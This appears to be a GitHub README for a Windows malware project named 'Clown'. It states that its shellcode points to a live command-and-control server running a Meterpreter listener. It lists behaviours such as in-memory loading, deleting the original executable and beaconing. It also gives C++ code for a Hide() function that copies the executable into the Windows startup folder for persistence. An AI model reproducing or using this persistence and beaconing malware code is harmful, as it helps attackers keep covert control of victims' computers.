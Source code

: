 ## Clown

### Note
Shellcode points to live c2 server running a meterpreter listener, don't run it ty

### ?
- loads entire binary into memory, then deletes the original exe
- exe is dumped and saved to startup folder
- opens a new beacon thread

### ??
```c++
int Hide() {
	WCHAR startupFolderPath[MAX_PATH];
	if (SUCCEEDED(SHGetFolderPath(NULL, CSIDL_STARTUP, NULL, 0, startupFolderPath))) {
		std::wstring startupPath = std::wstring(startupFolderPath) + L"\\Persistence_Demo.exe";
		int bufferSize = WideCharToMultiByte(CP_UTF8, 0, startupPath.c_str(), -1, NULL, 0, NULL, NULL);
		std::string narrowStartupPath(bufferSize, 0);
		WideCharToMultiByte(CP_UTF8, 0, startupPath.c_str(), -1, &narrowStartupPath[0], bufferSize, NULL, NULL);
		bool copy_result = copy_file("Persistence_Demo.exe", narrowStartupPath.c_str());
		return copy_result;
	}
	else {
		return 0;
	}
}
```